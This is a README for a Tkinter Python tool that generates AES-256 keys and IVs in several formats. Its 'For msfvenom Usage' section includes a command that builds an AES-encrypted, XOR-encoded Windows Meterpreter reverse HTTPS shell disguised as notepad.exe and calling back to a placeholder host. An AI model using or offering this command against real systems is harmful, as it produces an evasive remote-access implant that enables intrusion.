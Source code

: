 # AES-256 Key & IV Generator
A professional Python application for generating cryptographically secure AES-256 encryption keys and initialization vectors (IVs) with multiple output formats suitable for various applications including penetration testing tools like msfvenom.

![Python 3.6 Badge](https://img.shields.io/badge/python-3.6%252B-blue)
![MIT-License Badge](https://img.shields.io/badge/license-MIT-green)

## Features
Cryptographically Secure Generation: Uses os.urandom() for secure random number generation

## Multiple Output Formats:

Hexadecimal (ideal for msfvenom)

Base64 encoding

Escape sequences (for code implementation)

Raw bytes representation

## User-Friendly GUI: 

Intuitive interface built with Tkinter

Clipboard Integration: One-click copying of generated values

Cross-Platform Compatibility: Works on Windows, macOS, and Linux

## Installation
Clone or download this repository

Install required dependencies:

bash```
pip install -r requirements.txt```

## Usage

Run the application:

bash```
python aes_key_generator.py```

Generate new values:

Click "Generate New" to create a fresh AES-256 key and IV

Select output format:

Choose from Hex, Base64, Escape Sequences, or Raw Bytes

Copy values:

Use the "Copy Key", "Copy IV", or "Copy Both" buttons to transfer values to clipboard

## Requirements

The application requires the following dependencies (automatically installed via requirements.txt):

Python 3.6+

Tkinter (usually included with Python standard library)

## For msfvenom Usage

When using with msfvenom, select the **Hex format** and use the values with the appropriate flags:

bash```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=YOUR_IP LPORT=YOUR_PORT \
-e aes256 -K YOUR_KEY -i YOUR_IV --encoder x64/xor_dynamic --iterations 5 --arch x64 --platform windows -f exe -o notepad.exe```

## Security Considerations

Always generate new keys and IVs for each encryption operation

Never reuse the same key/IV combination

Store keys securely using appropriate secret management solutions

This tool uses cryptographically secure random generation (os.urandom)

## Project Structure
text
aes-key-generator/
├── aes_key_generator.py  # Main application file
├── requirements.txt      # Python dependencies
└── README.md            # This file

## License

This project is licensed under the **MIT License** - see the LICENSE file for details.

## Disclaimer
This tool is intended for educational and legitimate security testing purposes only. Always ensure you have proper authorization before using encryption tools on any system.


